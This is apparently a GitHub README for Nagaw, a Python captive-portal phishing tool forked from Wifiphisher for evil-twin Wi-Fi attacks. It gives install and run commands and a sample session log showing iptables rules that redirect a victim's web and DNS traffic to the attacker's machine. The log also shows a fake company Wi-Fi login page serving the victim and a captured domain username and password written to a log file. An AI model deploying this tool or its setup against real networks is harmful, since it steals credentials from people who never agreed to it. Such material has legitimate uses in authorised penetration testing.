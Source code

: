 # Nagaw
Nagaw is a simple yet effective captive portal tool coded in Python. 

The code was taken from Wifiphisher tool (all credits go to the original authors) and modified and adapted to be used separately.

## "New" ReadMe
This code was ~stolen~ forked from https://github.com/bransh/Nagaw after reading https://hacktricks.boitatech.com.br/pentesting/pentesting-network/wifi-attacks/evil-twin-eap-tls#the-uncommon-case-attacking-eap-tls

This should do 80% of what the previous tool did... was a lot of errors. 
```bash
# Run:
python3 -m venv venv &&  . venv/bin/activate && python3 -m pip install -r requirements.txt
sudo python3 nagaw.py -i wlan1 -o wlan0 -t demo
```

## Old ReadMe

# Example of Use:
```
bransh@hsnarb:~/DEV/nagaw$ sudo python nagaw.py -i wlan1 -o wlan0 -t demo -d
[*] Starting at 2019-05-19 22:18 ...
[*] Starting dnsmasq ...
[*] Cleaning iptables rules from the system ...
[D] Executing the following commands: 
    iptables -F
    iptables -X
    iptables -t nat -F
    iptables -t nat -X
[*] Configuring NAT for providing Internet via wlan0 ...
[D] Executing the following commands: 
    iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
    iptables -A FORWARD -i wlan1 -o wlan0 -j ACCEPT
[D] Executing the following command: 
    sysctl -w net.ipv4.ip_forward=1
[*] Configuring iptables for redirecting HTTP(s) to this host ...
[D] Executing the following commands: 
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 10.0.0.1:443
    iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.0.1:53
    iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.0.1:53
[D] Executing the following command: 
    sysctl -w net.ipv4.conf.all.route_localnet=1
[*] Loading phishing scenarios from /home/bransh/SHARED/DEV/nagaw/template-pages ...
[*] Selecting "Victim Company WiFi Login Page" template ...
[*] Starting HTTP/HTTPS server at ports 80/443 ...
[+] New victim(s):
    MAC: xx:xx:xx:xx:xx:xx / IP: 10.0.0.14
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.woff
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.ttf
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.svg
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[D] POST request from 10.0.0.14 for http://captive.apple.com/login
[D] POST request from 10.0.0.14 with body: {u'username': u'bransh.local\\bransh', u'password': u'fromiphone'}
[D] Got credentials (callback) ...
[D] Attempting to log credentials in file ...
[*] Credentials saved on /home/bransh/DEV/nagaw/_nagaw_credentials_20190519_2218.log ...
[+] New Credentials obtained from 10.0.0.14 :
    -> {u'username': u'bransh.local\\bransh', u'password': u'fromiphone'}
[*] Providing internet access to 10.0.0.14 ...
[D] Executing the following command: 
    iptables -t nat -I PREROUTING 1 -p tcp -s 10.0.0.14 -j ACCEPT
```

# Considerations
This mini-tool leverages dnsmasq under the hood to provide DHCP service to victims, therefore make sure to have it installed on your system before using it.
